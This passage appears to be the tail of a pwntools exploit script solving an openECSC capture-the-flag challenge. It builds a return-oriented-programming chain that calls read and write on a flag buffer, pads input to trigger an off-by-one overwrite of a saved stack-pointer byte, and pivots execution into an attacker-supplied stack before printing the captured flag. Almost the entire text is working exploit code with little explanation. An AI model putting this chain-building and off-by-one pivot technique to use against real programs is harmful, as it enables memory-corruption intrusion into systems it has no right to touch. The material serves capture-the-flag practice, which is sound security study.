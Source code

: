 ```python
params += p64(FD)                        # r3
params += p64(G_ROVERS)                  # r4            -> the flag will be read here
params += p64(0x100)                     # r5            -> read 0x100 bytes
params += b"X" * FRAME4_R0_OFFSET
params += p64(READ)                      # r0 (next call)

# ============== params for write =============

FRAME6_R3_OFFSET = 0x18
FRAME6_R0_OFFSET = 0x1f8
WRITE =  exe.sym.write + 20

params += b"Z" * FRAME6_R3_OFFSET
params += p64(1)                         # r3
params += p64(G_ROVERS)                  # r4            -> the flag will be read here
params += p64(0x100)                     # r5            -> write 0x100 bytes
params += b"Z" * FRAME6_R0_OFFSET
params += p64(WRITE)                     # r0 (next call)

stack = stack1 + stack2 + stack3 + stack4 + params

# ======================================================== read gadget ========================================================
ROP_READ_LEN = len(stack)
payload = b"A" * 0x5a                                               # padding
payload += p64(G_ROVERS - 0x106)                                    # this will be r9 + 0x106
payload += p64((0x61616161 << 32) | (ROP_READ_LEN - 1))             # the lower half will be set to r10. then r10++
payload += b"C" * (0x100 - len(payload) + 1)
io.sendafter(b"New planet: ", payload)

# ======================================================== trigger bug ========================================================
io.sendlineafter(b"Option:", str(2).encode())
io.sendlineafter(b"Choose the action:", str(3).encode())

io.sendlineafter(b"Option:", str(3).encode())                       # Execute command
io.sendlineafter(b"Send new name size: ", str(0x100).encode())
OFF_BY_ONE = (exe.sym.cmd_set_planet + 204) & 0xff                  # this needs to be the LSB of the instr:     addi    r1,r31,160.
io.sendlineafter(b"New name: ", b"D"*0x100 + p8(OFF_BY_ONE))               
io.sendlineafter(b"Option:", str(3).encode())                       # Execute command

# Here we just triggered the controlled length read inside g_rovers. We send the new stack here.
io.send(stack)

if args.ATTACH:
    io.interactive()
else:

    res = io.clean(0.5)

    if b"openECSC{" in res:
        flag = b"openECSC{" + res.split(b"openECSC{")[1].split(b"}")[0] + b"}"
        print(flag.decode())
    else:
        print("flag not found :(")

io.close()
exit()


```